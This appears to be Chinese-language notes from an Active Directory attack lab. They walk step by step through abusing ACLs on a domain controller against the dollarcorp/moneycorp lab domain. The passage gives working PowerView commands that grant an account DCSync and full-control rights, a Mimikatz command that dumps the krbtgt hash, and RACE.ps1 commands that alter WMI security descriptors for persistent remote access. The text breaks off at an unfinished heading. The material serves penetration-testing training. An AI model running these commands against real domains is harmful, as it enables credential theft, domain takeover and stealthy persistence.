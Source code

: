 PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> hostname
dcorp-dc
```

#  Dcsync 

using ACLs – Rights Abuse

查找账号student366是否有DCSync的权限（此操作需要DA权限）
```
PS C:\ad> . .\PowerView.ps1
PS C:\ad> Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "student366") -and (($_.ObjectType -match'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```
如果没有任何返回，表示没有权限

来到有DA权限的shell，注意这里要enter-pssession到DC服务器

添加完全控制权限
```
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student366 -Rights All -Verbose
```
再把Dcsync权限赋予当前学生账号student366
```
Add-ObjectAcl -TargetDistinguishedName"dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName student366 -Rights DCSync -Verbose
```

再次查看本账号是否有Dcsync权限

```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "student366") -and (($_.ObjectType -match'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

如果已经出现```ActiveDirectoryRights : GenericAll```表示成功赋权

执行Dcsync,导出krbtgt哈希（也可以是其他用户,此操作需要在DA权限的shell里操作）
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# Security Descriptors（安全描述符）

在DA权限shell引入RACE.ps1框架
```
PS C:\ad> . .\RACE.ps1
```

为WMI修改安全描述符，允许student366进入WMI
```
Set-RemoteWMI -SamAccountName student366 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose
```

在学生shell（重启VM生效）查看
```
gwmi -class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

### 没有登录凭证，修改安全描述符，使得学生机可以在DC上执行命令

```